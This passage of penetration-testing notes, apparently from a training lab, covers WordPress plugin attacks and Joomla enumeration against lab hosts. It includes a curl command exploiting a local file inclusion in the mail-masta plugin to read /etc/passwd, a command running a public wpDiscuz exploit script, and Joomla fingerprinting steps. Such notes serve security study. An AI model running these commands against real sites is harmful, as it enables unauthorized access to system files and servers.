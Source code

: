 ## **Vulnerable Plugins - Example: mail-masta**

### Local File Inclusion

```bash
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

## **Vulnerable Plugins - Example: wpDiscuz**

Exploit at Exploit-DB

```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

# **Joomla - Discovery & Enumeration**

## Simple enumeration

### Joomla Presence

```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

### robots.txt file

```
# If the Joomla site is installed within a folder# eg www.example.com/joomla/ then the robots.txt file# MUST be moved to the site root# eg www.example.com/robots.txt# AND the joomla folder name MUST be prefixed to all of the# paths.# eg the Disallow rule for the /administrator/ folder MUST# be changed to read# Disallow: /joomla/administrator/#
# For more information about the robots.txt standard, see:# https://www.robotstxt.org/orig.htmlUser-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
